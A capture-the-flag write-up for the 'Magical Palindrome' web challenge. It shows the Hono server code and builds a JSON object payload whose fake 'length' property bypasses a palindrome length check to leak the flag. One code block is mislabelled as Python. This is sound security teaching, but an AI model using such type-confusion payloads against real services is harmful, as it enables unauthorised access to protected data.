

# Magical Palindrome

## Challenge Description

In Dumbledore's absence, Harry's memory fades, and crucial words are lost. Delve into the arcane world, harness the power of JSON, and unveil the hidden spell to restore his recollection. Can you help Harry find the path to salvation?

## Solution

### 1. Recon

The initial page only exposes a single input field and a submit button.


Reviewing the client-side JavaScript shows that the value from the `palindrome` field is:

- Read from the form
- Wrapped in a JSON object
- Sent to `/` via a POST request with `Content-Type: application/json`
- The raw response text is then rendered to the page
```js
<script>
        const form = document.getElementById('form');
        const result = document.getElementById('result');

        form.onsubmit = async (event) => {
            event.preventDefault();
            const palindrome = new FormData(form).get('palindrome');
            const res = await fetch('/', {
                method: 'POST',
                headers: {'Content-Type': 'application/json'},
                body: JSON.stringify({palindrome}),
            });
            result.textContent = await res.text();
        };
    </script>
```

### 2. Server-Side Analysis

The server processes the request as follows:

```python
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';
import {readFileSync} from 'fs';

const flag = readFileSync('/flag.txt', 'utf8').trim();

const IsPalinDrome = (string) => {
	if (string.length < 1000) {
		return 'Tootus Shortus';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'Notter Palindromer!!';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = IsPalinDrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`Hii Harry!!! ${flag}`);
});

app.port = 3000;

serve(app);
```

The server extracts the `palindrome` field from the JSON payload and validates it using the `IsPalinDrome` function. If the function returns an error, the server responds with a 400 status and the error message. Otherwise, it returns the flag.

### 3. Bypassing the Validation

To bypass the `IsPalinDrome` function, the following conditions must be met:

1. The string length must be at least 1000.
2. The string must be a palindrome.
3. All elements in the payload must be strings.

#### Step 1: Length Check

Sending a string of 1000 'A' characters results in the following error:

```html
<html>
<head><title>413 Request Entity Too Large</title></head>
<body>
<center><h1>413 Request Entity Too Large</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

The Nginx configuration limits the request body size:

```
server {
    listen 80;
    server_name 127.0.0.1;
	client_max_body_size 75;
}
```

#### Step 2: Exploiting the Length Property

The server directly passes the JSON payload to the `IsPalinDrome` function without additional processing. By sending an object with a `length` property, we can bypass the length check:

```json
{   "palindrome": {
        "length": "2000"
    }
}
```

Here, `length` is a string `"2000"`. In JavaScript, it will be coerced into a number for comparison.

#### Step 3: Bypassing the Palindrome Check

The `Array(string.length).keys()` function creates an array of keys based on the `length` property. If `length` is a string, the array will contain only one element, `0`. Thus, the function only compares `string[0]` and `string[1999]`. Adding properties `0` and `1999` to the object satisfies this condition:

```json
{"palindrome":{"length":"2000","0":"a","1999":"a"}}
```

